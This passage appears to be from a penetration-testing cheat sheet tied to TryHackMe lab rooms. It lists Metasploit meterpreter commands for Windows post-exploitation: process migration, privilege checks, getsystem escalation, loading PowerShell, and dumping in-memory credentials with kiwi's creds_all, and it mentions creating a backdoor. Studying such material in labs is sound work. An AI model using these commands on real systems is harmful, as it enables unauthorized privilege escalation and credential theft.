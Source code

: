 ```bash
meterpreter > ps # list process
meterpreter > migrate process_pid # move to another process
meterpreter > migrate -N process_name # same
# most used ones
meterpreter > migrate -N spoolsv.exe # can restart so good
meterpreter > migrate -N explorer.exe # screenshots...
```
</div></div>

<hr class="sep-both">

## Notes for Windows meterpreter

[![blue](../../../_badges/thm-p/blue.svg)](https://tryhackme.com/room/blue)
[![ice](../../../_badges/thm-p/ice.svg)](https://tryhackme.com/room/ice)
[![blaster](../../../_badges/thm-p/blaster.svg)](https://tryhackme.com/room/blaster)
[![steelmountain](../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ See your privileges

```bash
meterpreter > getprivs
```

* ➡️ Try automatic privilege escalation 😎 ([more information](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)).

```bash
meterpreter > getsystem
```

* ➡️ Load powershell

```bash
meterpreter > load powershell
meterpreter > powershell_shell
```
</div><div>

* ➡️ Dump in-memory passwords

```bash
meterpreter > load kiwi
meterpreter > migrate some_process_nt_system_compatible
meterpreter > creds_all # retrieve all credentials
meterpreter > # you can also create a backdoor...
```

